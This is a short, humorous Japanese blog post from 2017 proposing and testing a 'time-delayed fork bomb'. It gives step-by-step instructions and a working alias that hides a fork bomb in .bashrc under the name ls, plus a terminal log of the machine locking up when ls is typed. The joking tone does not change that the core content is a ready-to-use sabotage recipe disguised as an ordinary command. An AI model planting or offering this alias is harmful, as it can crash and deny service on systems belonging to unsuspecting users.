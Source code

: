 ```yaml
---
Keywords:どうでもいい,危険シェル芸,帰る,日記,フォーク爆弾,シェル芸,頭の中だだ漏らし
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 時間差フォーク爆弾の提案と実行 #危険シェル芸
本日は大変痛ましい事故が起こりました。私を訪ねてきた学生さんが一人、危険シェル芸の犠牲になりました。最大のリスクは生きることです。社会人になったら誰も守ってくれません。強く生きましょう。<br />
<br />
さて、その後始末の時に、時間差危険シェル芸（より正確には時間差フォーク爆弾）を思いつきました。<br />
<br />
アイデアはこんな感じ。過去に同じことを考えた人はいるでしょうが・・・。<br />
<br />
<ul><br />
 <li>ステップ1: .bashrc等にフォーク爆弾の関数を仕込んでおく（lsとかそういう人気のある名前で）</li><br />
 <li>ステップ2: lsと打つ。</li><br />
 <li>ステップ3: 死ぬ。</li><br />
</ul><br />
<br />
<br />
<h2>検証</h2><br />
<br />
やってみました。VMで・・・と言いたいところですが、ノートPCを買い換えた時にVMを消してしまいました。某Ubuntu環境でやります。<span style="color:red">ツッコミは厳禁。</span><br />
<br />
ログインしたら、.bashrcの一番下に次のように書きます。書き間違えると不発弾になって後世に迷惑がかかるのでやめましょう（消せよ）。<br />
<br />
[bash]<br />
ueda\@remote:~$ tail -n 1 .bashrc <br />
alias ls='ls(){ ls | ls &amp;} ; ls'<br />
[/bash]<br />
<br />
一度ログアウト。sourceしてもいいのですが、ログイン即身成仏を狙います。<br />
<br />
ということでログインして即実行。<br />
<br />
[bash]<br />
ueda\@remote:~$ ls<br />
[1] 18531<br />
ueda\@remote:~$ <br />
[1]+ 終了 ls | ls<br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
<br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ vi .bashr<br />
（消息を断つ。）<br />
[/bash]<br />
<br />
大成功。ちょっとログ等で確認が取れませんが・・・。<br />
<br />
<span style="color:red">.bashrcからエイリアスを消した直後、まだ設定が残っているのに間違ってlsを打ってしまい再度死んだのは秘密にする。</span><br />
<br />
<br />
帰る。というか今横須賀線車内・・・。<br />
<br />
<br />
何をやっているのか。
